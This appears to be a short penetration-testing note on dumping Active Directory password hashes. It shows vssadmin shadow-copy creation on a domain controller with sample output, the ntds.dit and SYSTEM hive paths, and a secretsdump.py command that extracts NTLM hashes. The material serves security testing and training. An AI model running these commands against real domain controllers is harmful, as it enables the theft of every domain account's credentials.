


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

```plain
PS C:\temp> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
PS C:\temp>
```

To make it easy for yourself and extract the `ntds.dit` and `SYSTEM` file from the ShadowCopy, you can use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html)

{}

### Copy NTDS.dit

Path: `C:\Windows\NTDS\ntds.dit`



### Copy SYSTEM

Path: `C:\Windows\System32\config\SYSTEM`



### Extract hashes

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

Example `NTDS.dit` and `SYSTEM` files zipped below.

{}

### URL list

* [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
